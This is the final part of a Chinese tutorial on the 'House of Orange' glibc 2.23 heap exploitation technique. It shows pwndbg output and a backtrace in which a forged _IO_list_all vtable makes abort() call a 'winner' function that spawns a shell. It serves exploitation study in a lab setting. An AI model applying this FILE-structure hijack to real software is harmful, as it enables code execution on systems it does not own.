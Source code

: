 ```bash
pwndbg> x/x top + (0xd8 / 8)
0x6024d8: 0x0000000000602460
pwndbg> x/4gx 0x0000000000602460
0x602460: 0x0000000000000000 0x0000000000000000
0x602470: 0x0000000000000000 0x00000000004007df
pwndbg> x/x 0x4007df
0x4007df <winner>: 0x10ec8348e5894855
```

最后的最后，`malloc(10)`，malloc在将unsorted bin的chunk移入smallbin并且完成_IO_list_all的改写后，会对chunk的size进行检查：

```c
         if (__glibc_unlikely (size <= 2 * SIZE_SZ)
              || __glibc_unlikely (size > av->system_mem))
```

而我们伪造的chunk并不满足条件，在退出前调用`_IO_flush_all_lockp`遍历刷新IO，最终调用winner函数，得到shell。

```sh
pwndbg> bt
#0  winner (ptr=0x602400 "/bin/sh") at glibc_2.23/house_of_orange.c:269
#1  0x00007ffff7a891a6 in _IO_flush_all_lockp (do_lock=do_lock@entry=0) at genops.c:786
#2  0x00007ffff7a43fcd in __GI_abort () at abort.c:74
#3  0x00007ffff7a847fa in __libc_message (do_abort=2, fmt=fmt@entry=0x7ffff7b9df98 "*** Error in `%s': %s: 0x%s ***\n") at ../sysdeps/posix/libc_fatal.c:175
#4  0x00007ffff7a8f15e in malloc_printerr (ar_ptr=0x7ffff7dd1b20 <main_arena>, ptr=0x7ffff7dd2520 <_IO_list_all>, str=0x7ffff7b9adff "malloc(): memory corruption", action=<optimized out>) at malloc.c:5020
#5  _int_malloc (av=av@entry=0x7ffff7dd1b20 <main_arena>, bytes=bytes@entry=10) at malloc.c:3481
#6  0x00007ffff7a911d4 in __GI___libc_malloc (bytes=10) at malloc.c:2920
#7  0x00000000004007d8 in main () at glibc_2.23/house_of_orange.c:257
#8  0x00007ffff7a2d840 in __libc_start_main (main=0x4006a6 <main>, argc=1, argv=0x7fffffffde98, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffde88) at ../csu/libc-start.c:291
#9  0x00000000004005d9 in _start ()
```

### Reference

[FILE structure](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/)

[FSOP](https://ray-cp.github.io/archivers/IO_FILE_vtable_hajack_and_fsop)